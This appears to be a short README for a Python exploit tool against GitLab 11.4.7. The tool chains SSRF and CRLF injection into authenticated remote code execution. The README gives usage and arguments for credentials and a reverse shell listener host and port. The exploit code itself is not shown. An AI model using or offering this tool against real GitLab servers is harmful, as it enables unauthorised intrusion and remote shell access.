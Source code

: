# GitLab-11.4.7-Authenticated-Remote-Code-Execution        
# (SSRF + CRLF -> RCE)

<h4> Blog : https://github.com/jas502n/gitlab-SSRF-redis-RCE/blob/master/README.md </h4>


<h3> Usage : python gitlab_rce.py -U `USERNAME` -P `PASSWORD` -l `LHOST` -p `LPORT` </h3>
  

usage: gitlab_rce.py [-h] [-U U] [-P P] [-l L] [-p P]

GitLab 11.4.7 Authenticated RCE

<p>optional arguments:</p>

 <p> -h, --help show this help message and exit </p>
 <p> -U         GitLab Username </p>
 <p> -P         Gitlab Password </p>
 <p> -l         rev shell lhost </p>
 <p> -p         rev shell lport </p> 
